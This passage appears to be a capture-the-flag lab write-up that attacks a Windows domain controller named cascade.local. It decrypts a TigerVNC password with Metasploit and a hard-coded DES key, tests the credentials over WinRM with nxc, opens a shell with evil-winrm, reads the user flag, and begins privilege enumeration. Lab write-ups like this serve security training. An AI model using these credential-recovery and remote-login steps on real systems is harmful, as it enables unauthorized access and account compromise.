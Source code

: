 There is a [way](https://github.com/frizb/PasswordDecrypts) to decrypt TigerVNC passwords via Metasploit:

```bash
$ msfconsole -q
msf6 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

irb: warn: can't alias jobs from irb_jobs.
>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
 => "\u0017Rk\u0006#NX\a"
>> require 'rex/proto/rfb'
 => true
>> Rex::Proto::RFB::Cipher.decrypt ["6bcf2a4b6e5aca0f"].pack('H*'), fixedkey 
=> "s<REDACTED>2"
```

Check for WinRM access:

```bash
$ nxc winrm casc-dc1.cascade.local -u 's.smith' -p 's<REDACTED>2'
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 (name:CASC-DC1) (domain:cascade.local)
WINRM       10.10.10.182    5985   CASC-DC1         [+] cascade.local\s.smith:s<REDACTED>2 (Pwn3d!)
```

Obtain initial foothold and compromise `user.txt`:

```bash
$ evil-winrm -i 10.10.10.182 -u s.smith -p s<REDACTED>2

<SNIP>
*Evil-WinRM* PS C:\Users\s.smith\Documents> gc ..\desktop\user.txt
0<REDACTED>d
```

Check user's information:

```bash
*Evil-WinRM* PS C:\Users\s.smith\Documents> whoami /all

USER INFORMATION
----------------

User Name       SID
=============== ==============================================
cascade\s.smith S-1-5-21-3332504370-1206983947-1165150453-1107


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ===============================================================
<SNIP>
CASCADE\Data Share                          Alias            S-1-5-21-3332504370-1206983947-1165150453-1138 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\Audit Share                         Alias            S-1-5-21-3332504370-1206983947-1165150453-1137 Mandatory group, Enabled by default, Enabled group, Local Group
<SNIP>


PRIVILEGES INFORMATION
----------------------

```